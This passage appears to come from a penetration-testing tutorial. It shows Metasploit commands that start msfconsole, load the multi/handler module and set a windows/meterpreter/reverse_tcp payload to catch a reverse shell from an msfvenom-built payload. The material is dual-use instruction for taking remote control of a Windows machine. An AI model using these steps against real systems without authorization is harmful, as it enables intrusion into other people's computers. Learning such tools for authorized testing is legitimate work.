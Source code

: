 `msfconsole` 

![](.gitbook/assets/image%20%2813%29.png)

Select the handler module, which let's us set up a listener to "catch" our shell from the payload we created:

`use exploit/multi/handler`

Set the correct payload \(needs to be identical to the payload we specified in `msfvenom`. If it does not match, it will not work properly and you will most likely not get a reverse shell back.

`set payload windows/meterpreter/reverse_tcp` 

Now that our payload is selected we're going to do is to check what options we have to set. So we type `options`
